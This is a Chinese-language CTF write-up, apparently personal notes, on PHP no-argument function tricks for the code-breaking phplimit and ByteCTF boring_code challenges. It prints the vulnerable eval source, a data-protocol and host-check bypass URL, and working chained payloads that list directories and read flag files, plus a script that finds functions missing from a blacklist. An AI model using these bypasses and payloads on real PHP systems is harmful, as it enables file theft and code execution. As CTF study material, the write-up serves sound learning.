



# 函数妙用

## code-breaking_easy-phplimit函数的巧妙搭配

### 参考文章

- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#get-defined-vars
- https://xz.aliyun.com/t/6316

### 利用

```php
eval(next(current(get_defined_vars())));&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```

## ByteCTF boring_code

### 参考文章

- http://www.guildhab.top/?p=1077

- https://xz.aliyun.com/t/6316

### 分析

#### 源码

```php
<?php
function is_valid_url($url) {
    if (filter_var($url, FILTER_VALIDATE_URL)) {
        if (preg_match('/data:\/\//i', $url)) {
            return false;
        }
        return true;
    }
    return false;
}

if (isset($_POST['url'])){
    $url = $_POST['url'];
    if (is_valid_url($url)) {
        $r = parse_url($url);
        if (preg_match('/baidu\.com$/', $r['host'])) {
            $code = file_get_contents($url);
            if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        } else {
            echo "error: host not allowed";
        }
    } else {
        echo "error: invalid url";
    }
}else{
    highlight_file(__FILE__);
}
```

#### 第一步

第一步需要绕过`preg_match`的检测，网上见到的payload都是通过购买域名，url跳转等方法进行绕过。其实可以通过代码绕过。

**我的方法**

```
compress.zlib://data:@baidu.com/baidu.com,phpinfo()
```

`compress.zlib`绕过data协议的检测，`@`使`data:`被解释为用户名和密码，`baidu.com/baidu.com`中只要包含`/`就会被解释为合法的`media-type`



**其他方法**

- 购买一个 xxxxbaidu.com 的域名

- 百度网盘链接

  **这种方法的思路是将恶意代码上传到百度网盘 , 然后通过百度网盘的下载链接来绕过 baidu.com 的主机名限制 .**

  1. **将一个恶意脚本上传到百度网盘( 这里以 phpinfo() 为例 )**
  
     
  
  2. **通过开发者工具( F12 ) , 在 network 选项卡中可以找到目标文件的链接**
  
     
  
- 百度贴吧（https://www.4xseo.com/marketing/1280/

- 百度爬虫

  其原理大概就是 : **百度的搜索引擎爬虫会爬到你的个人站点 , 当你在百度上点击自己站点时 , 并不是直接访问 . 而是利用百度的重定向机制 , 将你的网址转换成`http://www.baidu.com/link?url=xxxxxxxxxxxxxxx` , 通过这个链接可以绕过第一层防御并且拿到你站点上的恶意脚本 .**

#### 第二步

我们要获取`.`，可以通过获取`.`的ascii码，然后通过`chr`函数得到。写了个脚本：

```php
<?php
$functions=get_defined_functions()['internal'];

function getFucntionParameter1($func) {
    $ReflectionFunc = new \ReflectionFunction($func);
    $nums=$ReflectionFunc->getNumberOfRequiredParameters();
    if ($nums===1){
    	echo $func."\n";
    	#@print_r($func());
    	#echo "\n#####\n";
    }
}


foreach($functions as $vul){
	if(preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log|readline/i', $vul)){

	}else{
		getFucntionParameter1($vul);
	}
}
```

主要使用了反射检测函数的参数。

**payload**

- `crypt`函数的返回值最后一位可能为`.`

  ```php
  if(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))readfile(end(scandir(chr(ord(strrev(crypt(serialize(array()))))))));
  ```

- `localeconv`函数

  ```php
  echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
  ```

- `phpversion`函数，通过数学函数变化获取数字`46`

  ```php
  ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))
  ```

- `spl_autoload_extensions`函数

  ```php
  chr(ord(spl_autoload_extensions()))
  ```

